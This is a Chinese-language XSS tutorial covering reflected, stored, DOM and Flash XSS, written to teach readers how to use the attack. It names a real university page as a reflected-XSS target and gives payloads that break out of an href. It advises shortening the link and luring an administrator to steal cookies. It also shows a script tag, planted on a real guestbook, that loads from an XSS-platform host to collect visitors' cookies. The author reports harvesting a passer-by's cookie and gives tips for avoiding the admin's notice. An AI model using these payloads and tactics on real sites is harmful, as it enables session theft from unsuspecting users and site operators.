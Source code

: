 # XSS分类与漏洞挖掘

![](/attackUsers/xss/image/xss-17.png)

---
## 01. 前言
当第一期出来的时候，反馈很好，但还是有很多人提出疑问，我这里就解答下。

```
问1：如果我输入PHP语句会不会执行。
答1：不会，因为XSS是面对前台的(用户可见部分)，而PHP则是后台处理(用户不可见部分)，如果可以执行PHP语句的话，那不叫XSS，叫"任意代码执行"。

问2：XSS和CSRF有什么区别么？
答2：有的，XSS是获取信息，不需要提前知道其他用户页面的代码和数据包。CSRF是代替用户完成指定的动作，需要知道其他用户页面的代码和数据包。

问3：为什么我在chrome浏览器下测试<script>alert("xss")</script>并没有成功。
答3：chrome内核与ie内核不一样，chrome的过滤机制比ie强。现在测试xss一般都拿能过chrome的为主，所以当你输入xss的时候，可能被chrome的过滤机制给过滤了。
```

## 02. 反射型XSS
反射XSS是XSS分类中最多的，他们原理是下面这样：

>Hacker——发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码、缩短(可有可无，是为了增加迷惑性)——发送给受害人——受害打开后，执行XSS代码——完成hacker想要的功能(获取cookies、url、浏览器信息、IP等等)

原理搞清楚，那就说说怎么挖掘吧.
现在市面上的软件(JSky、Safe3WVS、Netsparker等)都可以挖掘出反射XSS，但是想要那些更隐蔽的XSS还是需要手工的，我先使用软件挖掘一些反射XSS，然后介绍手工挖掘。

![](/attackUsers/xss/image/xss-18.png)

找到后，我们来打开

```
http://gdjy.hfut.edu.cn/viewcomp.jsp?id=hzgz123
```

打开后，我们试着在参数也就是id=hzgz123后面加上woaini(或则其他字符，这串字符必须保持唯一性，也就是说在整个网站里，他必须唯一一个不和其他字符相同的字符串)输入woaini后，打开，查看源代码(ctrl+u)，按下ctrl+f来搜索woaini字符串，看出现在哪个位置。

![](/attackUsers/xss/image/xss-19.png)

我们发现woaini字符在a标签的href属性里，那我们就可以根据这个环境来构造了，我们可以用`"></a><script>alert("xss")</script>`来先闭合掉a标签。然后再用script来运行js代码。也可以这样`onclick="alert(1)";>123</a>//`点击123触发onclick来运行js，然后把后面的内容来注释掉。构造好代码后，把url变成短连接，发送给管理员，诱惑管理员打开，就可以获取管理员的cookies了。

OK，软件挖XSS大致就这些，手工其实和这差不多，手工的话，记住一句话“`见框就插`、`改数据包不可见部分`、`改URL参数`、`js分析`”就可以了。改数据包、js分析比较深，现在我就不再阐述了，见框就插，大家应该都明白，** 找到一个input输入框，先输入唯一字符串，然后看源代码里有没有出现** ，再输入`<>""/&()`来看看过滤了哪些字符，根据过滤的字符，来构造xss。

下图是QQ空间一处反射XSS，因为是朋友给的，我也不清楚是否被提交，所以我就不放出了。

![](/attackUsers/xss/image/xss-20.png)

## 03 储蓄型XSS
PS：有的人叫持久型，各有各的叫法，所以不用太介意。

储蓄型XSS其实和反射型XSS差不多，只是储蓄型把数据保存到服务端，而反射型只是让XSS游走在客户端上。下面是我在某处网站上检测到的储蓄XSS，大家知道原理就OK。

目标站点：`http://www.*******.com/`

习惯性的打开留言处(book.asp)，点击留言(这里最好不要使用<script>alert("xss")</script>来测试是否存在XSS漏洞，容易被管理员发现，所以你可以使用<a></a>来测试，如果成功了，不会被管理员发现)OK，我先在留言里出输入<a>s</a>提交留言，F12打开审查元素，来看我们输入的标签是否被过滤了.

![](/attackUsers/xss/image/xss-21.png)

OK，发现没有过滤(如果`<a>s</a>`是彩色的说明没有过滤，如果是灰色就说明过滤了)

那我就在xss平台里创建一个项目，然后再次留言，里面写上，“`<script src="http://xss8.pw/EFe2Ga?1409273226"></script>`请问怎么报名啊”

![](/attackUsers/xss/image/xss-22.png)

名字是我乱起的，这样一来，只要你访问`http://www.******.com/book.asp`

就可以获取你的cookies，以及后台地址(因为留言板一般都在后台做审核)。但是，管理员好像死了，已经6天了，还没看。今天上xss平台一看有个cookies，看了下，是路人的，并不是管理员的。

![](/attackUsers/xss/image/xss-23.png)

但是使用方法大家也应该懂了。只要你打开 `http://www.******.com/book.asp` 我就会在第一时间获取你的cookies。

## 04. DOM XSS
DOM XSS是基于在js上的。而且他不需要与服务端进行交互，像反射、储蓄都需要服务端的反馈来构造xss，因为服务端对我们是不可见的

挖掘DOM XSS比较麻烦，因为有时你需要追源，对方可能会自定义函数，所以你需要一步一步来把对方自定义的函数来搞清楚。下面我举个最简单的例子：

在1.html里输入

```html
<script>
          document.write(document.URL.substring(document.URL.indexOf("a=")+2,document.URL.length));
</script>
```

在这里我先解释下上面的意思

```
Document.write  是把里面的内容写到页面里。
document.URL    是获取URL地址。
Substring       从某处到某处，把之间的内容获取。
document.URL.indexOf("a=")+2  是在当前URL里从开头检索a=字符，然后加2(因为a=是两个字符，我们需要把他略去)，同时他也是substring的开始值
document.URL.length  是获取当前URL的长度，同时也是substring的结束值。
```

合起来的意思就是：在URL获取`a=`后面的值，然后把`a=`后面的值给显示出来。

我们打开，看看

![](/attackUsers/xss/image/xss-24.png)

怎么会出现这个问题呢？

因为当前url并没有`a=`的字符，而`indexOf`的特性是，当获取的值里，如果没有找到自己要检索的值的话，返回-1。找到了则返回0。那么`document.URL.indexOf("a=")`则为-1，再加上2，得1。然后一直到URL最后。这样一来，就把file的f字符给略去了，所以才会出现`ile:///C:/Users/Administrator/Desktop/1.html`

大致的原理都会了，我们继续。

我们可以在1.html后输入`?a=123`或则`#a=123`，只要不影响前面的路径，而且保证a=出现在URL就可以了。

![](/attackUsers/xss/image/xss-25.png)

![](/attackUsers/xss/image/xss-26.png)

我们清楚的看到我们输入的字符被显示出来了。

那我们输入`<script>alert("xss")</script>`会怎么样呢？

答案肯定是弹窗。

![](/attackUsers/xss/image/xss-27.png)

但是，这里肯定有人无法弹窗，像下面这样。

![](/attackUsers/xss/image/xss-28.png)

这是因为浏览器不同，maxthon、firfox、chrome则不行，他们会在你提交数据之前，对url进行编码。这不是说DOM XSS不行了，这只是个很简单的例子，所以不用在意。

我在说下，DOM XSS 是基于javascript基础上，而且不与服务端进行交互，他的code对你是可见的，而基于服务端的反射、储蓄则是不可见的。

## 05. XSF(Flash XSS)
XSF其实不算XSS的分类中，应该算作XSS的分支，因为在XSS使用到的技巧，在XSF只有一部分可以使用，因为XSF是基于ActionScript2/3.0语言的基础上。

我写XSS系列是为了让大多数对XSS不熟悉的人知晓如何运用这门攻击手法，所以，在此我不打算深入介绍XSF，如果有机会，你们将会在后期的系列里看到关于XSF技术的。

我先简要的说明下，在ActionScript2/3.0里以下几个函数需要重点关注下：

```
getURL
navigateToURL
ExternalInterface.call
ExternalInterface.call
htmlText
addcallback

```
等。有兴趣的朋友可以先自行研究下。